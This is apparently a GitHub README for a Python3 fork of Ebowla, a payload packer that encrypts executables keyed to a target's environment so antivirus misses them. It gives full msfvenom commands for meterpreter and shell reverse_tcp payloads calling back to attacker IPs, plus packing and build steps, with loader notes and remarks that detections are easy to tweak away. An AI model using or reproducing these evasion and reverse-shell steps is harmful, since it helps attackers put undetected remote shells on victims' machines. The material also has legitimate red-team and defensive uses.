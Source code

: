 # 3 B O W L A

## kazkansouh update notes

I have forked this WIP for `ebowla` being uplifted to `python3` and
tweaked it a little to get it to work (and understand how it works) -
atleast for simple usecases. Some points to note. I have only looked
at the environment encryption of the `Go` host application option
(which in turn makes use of [`MemoryModule`][MemoryModule]). Thus,
there are some pitfalls to the type of executables that can be loaded:

* The GO compiler configures the image base address of `0x400000` (the
  deafult for i686 executables). Thus, when the payload is placed into
  this address space, if it uses this location (i.e. it is i686 and
  combiled with MSVC or compiled with `mingw` then it might not work
  when it gets relocated and it does not expect it). There are two
  solutions to this problem:
  
    1. change the base address of the payload (during linking) see
       [[MSVC][msvcbase]], or
    2. compile the payload with dynamic base/position independent code
       [[MSVC][msvcdynamic]] so it fills out the reloaction table
       (this is the default on modern MSVC compilers, but not with
       `mingw`).
    
    Luckily, in the case of x86_64 programs when compiled by MSVC, the
    default image base is `0x140000000`, so its unlikely this will be
    occupied and can be loaded directly. Moreover, as MSVC enables
    dynamic base by default on modern compilers, these issues are
    minimised.
  
    In the case of compiling the payload with `mingw`, the easiest
    option is to simply append the `-Wl,--image-base,0x...` flag to
    kick out the default address from `0x400000` to something like
    `0x3C00000`. This applies to both `i686` and `x86_64` varianets of
    `mingw` as they both use the `0x400000` image base as
    default. Alternatively, add the `-pie` flag to fill out the
    relocation table and due to an [odd bug][mingwbug] its also needed
    to specify the entry point: for i686 `-Wl,-e_mainCRTStartup` and
    for x86_64 `-Wl,-emainCRTStartup`.
  
    As a side note: *Unfortunatly, the obvious soultion of changing the
    image base address away from `0x400000` for the host app does not
    work as it appears that its still not possible to allocate in this
    region (the memory still has the `MEM_RESERVE` flag set even when
    its not being used - I think its related to how Windows loaded the
    application image originally but not sure). Yet, even if this was
    possible to allocate here there are no assurances how much space
    could be allocated once Windows allocates space for threads, etc.*

* DLLs should not suffer these issues. However, of note the usual rule
  of thumb of not making certain API calls (such as creating threads)
  in the `dllmain` function do not apply here as its called like any
  normal function.

### Notes about AV Bypass

The compiled host application has some common strings/patterns that
get detected. However, from my experiance it does not take too much
work to identify which strings are being flagged and tweak the binary
accordinly.

At time of pushing this, the default `IAD` in the host binary appears
to flag up on Windows Defender. This is easy enough to tweak, however,
no evasions have been included in these patches for obvious reasons ;)


### Typical Usage: YMMV

For 64 bit:

```text
$ msfvenom -f exe -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=10.10.10.1 LPORT=4567 RC4PASSWORD=jojo > msf.exe
$ ./ebowla.py msf.exe your.config
$ ./build_go.sh x86_64 output/go_symmetric_msf.exe.go jojo.exe
```

Or for 32 bit:

```text
$ msfvenom -f dll -p windows/meterpreter/reverse_tcp_rc4 LHOST=10.10.14.6 LPORT=4445 RC4PASSWORD=jojo > msf32.dll
$ ./ebowla.py msf32.dll your.config
$ ./build_go.sh i686 output/go_symmetric_msf32.dll.go msf32.exe
```

**Below `\/\/` is the existing readme untouched**

## Ebowla Fork to add Python3 Support
### we are in the very beginning here - so not everything works.

When using go as payload type, most of the functionality should be implemeted and function properly. We decided against rewriting the functionality needed to use python as payload type, as cross compiling python executables on linux only really works through the usage of pyinstaller in wine - which is quite a hassle and an ugly solution, especially considering that GO as payload type can almost take over everything that python could and we, ourselves, never had to use python for it. 

## How to use Ebowla

This part is taken from a writeup I did for Ebowla with python2. With the added python3 support, none of the steps following change, at least not for the output type EXE. If we have time, we will provide documentation adjusted to python3 and other functionality. 

### edit generic.config:

change:

payload_type = GO

output_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

### creating payload

Here used as an example, a reverse shell made with mfsvenom:

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

### building executable with Ebowla

```python3 ebowla.py shell.exe genetic.config```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-42.png?token=ANDZTD52FKYQIOMKV3RBKUC56NLDI)

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-47.png?token=ANDZTDZ4WQD7BAUW45VQUWK56NLHO)

The finished, packed executable can be found in the **output** folder.

### Results!

### without Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-50.png?token=ANDZTD3RLAGGH5XC3FN3A2S56NLMI)

### same executable with the use of Ebowla

![](https://raw.githubusercontent.com/ohoph/cheatsheats/master/ebowla/images/2019-12-13_09-52.png?token=ANDZTD3BMQF7CAHDMEHEVZC56NLMQ)

[MemoryModule]: https://github.com/fancycode/MemoryModule "GitHub.com: MemoryModule - API to load dll from memory"
[msvcbase]: https://docs.microsoft.com/en-us/cpp/build/reference/base-base-address "Microsoft.com: /BASE"
[msvcdynamic]: https://docs.microsoft.com/en-us/cpp/build/reference/dynamicbase-use-address-space-layout-randomization "Microsoft.com: /DYNAMICBASE"
[mingwbug]: https://sourceforge.net/p/mingw-w64/mailman/message/31034877/ "[Mingw-w64-public] ASLR/--dynamicbase and -pie with MinGW-w64"
